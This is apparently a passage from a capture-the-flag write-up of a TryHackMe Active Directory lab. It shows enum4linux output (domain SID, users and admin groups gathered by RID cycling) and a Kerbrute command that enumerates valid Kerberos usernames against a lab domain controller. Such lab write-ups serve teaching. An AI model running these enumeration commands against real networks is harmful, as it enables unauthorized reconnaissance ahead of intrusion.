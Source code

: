 
## 🧰 Enum4linux Output

```bash
enum4linux -a 10.10.230.172
```

### Domain Information

- **Domain Name:** `THM-AD`
- **Domain SID:** `S-1-5-21-3591857110-2884097990-301047963`
- The host is part of an Active Directory domain.

### RID Cycling Results

We retrieve some users despite null session restrictions:

```plaintext
THM-AD\Administrator
THM-AD\Guest
THM-AD\krbtgt
THM-AD\ATTACKTIVEDIREC$
```

We also enumerate high-privilege groups such as:

```plaintext
THM-AD\Domain Admins
THM-AD\Enterprise Admins
THM-AD\Schema Admins
```

---

## 🔎 Kerberos Username Enumeration (Kerbrute)

We use Kerbrute to identify valid users via Kerberos response behavior:

```bash
./kerbrute_linux_386 userenum --dc 10.10.230.172 -d spookysec.local userlist.txt
```

### Valid Usernames Discovered:

```plaintext
svc-admin@spookysec.local
james@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
backup@spookysec.local
paradox@spookysec.local
administrator@spookysec.local
```

---
